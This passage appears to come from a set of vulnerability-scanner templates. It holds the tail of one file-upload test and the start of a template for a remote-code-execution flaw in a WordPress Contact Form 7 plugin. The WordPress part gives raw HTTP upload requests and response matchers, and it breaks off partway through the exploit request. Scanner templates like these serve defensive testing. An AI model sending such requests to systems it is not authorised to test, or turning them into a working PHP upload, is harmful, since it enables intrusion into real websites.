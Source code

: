 ```
Content-Disposition: form-data; name="mtime[]"

1576045135
--------------------------ca81ac1fececda48
Content-Disposition: form-data; name="upload[]"; filename="poc.txt"
Content-Type: text/plain

poc-test
--------------------------ca81ac1fececda48--

```

### Matchers

**Type - word**

- words
  1. poc.txt
  2. added
- condition - and

**Type - word**

- words
  1. application/json
- part - header

**Type - status**

- status
  1. 200

---

# WordPress Contact Form 7 \<1.3.3.3 - Remote Code Execution

## Description

- WordPress Contact Form 7 before 1.3.3.3 allows unrestricted file upload and remote code execution by setting supported_type to php% and uploading a .php% file.

- severity - critical
- tags - wordpress,wp-plugin,fileupload,wp,rce,packetstorm,cve,cve2020,intrusive

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------350278735926454076983690555601
X-Requested-With: XMLHttpRequest

-----------------------------350278735926454076983690555601
Content-Disposition: form-data; name="supported_type"

txt%
-----------------------------350278735926454076983690555601
Content-Disposition: form-data; name="size_limit"

5242880
```